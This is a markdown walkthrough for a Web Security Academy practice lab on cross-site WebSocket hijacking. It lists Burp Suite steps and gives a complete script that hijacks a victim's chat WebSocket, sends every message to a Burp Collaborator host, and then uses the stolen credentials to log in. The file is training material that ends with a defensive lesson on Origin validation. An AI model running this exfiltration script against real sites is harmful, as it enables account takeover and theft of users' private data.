






# Lab 3 — Cross-site WebSocket hijacking

> [← Back to WebSockets](../README.md)

---

## 🎯 Objective
Hijack the victim's WebSocket connection to exfiltrate their chat history and steal their credentials.

---

## 🪜 Steps

### Step 1 — Open Live Chat, send hello



---

### Step 2 & 3 — Find WebSocket handshake, copy URL
**Burp → Proxy → HTTP history** → find `GET /chat` with `Upgrade: websocket`.

Convert URL to `wss://`:
```
wss://YOUR-LAB-ID.web-security-academy.net/chat
```

---

### Step 4 — Get Burp Collaborator URL
**Burp → Collaborator → Copy to clipboard**



---

### Step 5 — Create exploit on Exploit Server
```html
<script>
  var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
  ws.onopen = function() { ws.send("READY"); };
  ws.onmessage = function(event) {
    fetch('https://YOUR-COLLABORATOR.oastify.com', {
      method: 'POST', mode: 'no-cors', body: event.data
    });
  };
</script>
```



---

### Step 6 & 7 — Test, then deliver to victim
Click **View exploit** to test. Then **Deliver exploit to victim**.

Poll Collaborator — you'll see the victim's chat history with their credentials.



---

### Step 8 — Login as victim
Use credentials found in chat history.



---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
WebSocket connections don't enforce CORS. Always validate the `Origin` header during the WebSocket handshake.
